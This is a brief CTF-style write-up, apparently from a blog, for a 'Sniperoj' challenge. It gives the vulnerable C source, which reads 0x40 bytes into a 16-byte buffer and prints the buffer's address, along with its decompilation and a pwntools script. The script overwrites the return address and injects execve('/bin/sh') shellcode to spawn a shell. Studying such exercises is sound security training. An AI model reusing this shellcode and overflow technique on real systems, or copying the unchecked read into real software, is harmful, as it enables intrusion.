


# ROP
#0blog




```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+0h] [rbp-10h]
  __int64 v5; // [rsp+8h] [rbp-8h]

  buf = 0LL;
  v5 = 0LL;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  puts("Welcome to Sniperoj!");
  printf("Do your kown what is it : [%p] ?\n", &buf, 0LL, 0LL);
  puts("Now give me your answer : ");
  read(0, &buf, 0x40uLL);
  return 0;
}
```




EXP:

```python
from pwn import *
import re

p = process('./shellcode')
p.recvline()
bufaddr = p.recvline()
bufaddr = int(re.split("[\[\]]", bufaddr)[1][2:], 16)

shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

shelladdr = p64(bufaddr + 24 + 8)

payload = 'A' * 24 + shelladdr + shellcode

p.sendline(payload)
p.interactive()
```


程序源码：


```c

#include <stdio.h>
#include <unistd.h>

int main(){
    char buffer[0x10] = {0};
    setvbuf(stdout, NULL, _IOLBF, 0);
    printf("Welcome to Sniperoj!\n");
    printf("Do your kown what is it : [%p] ?\n", buffer);
    printf("Now give me your answer : \n");
    read(0, buffer, 0x40);
    return 0;
}
```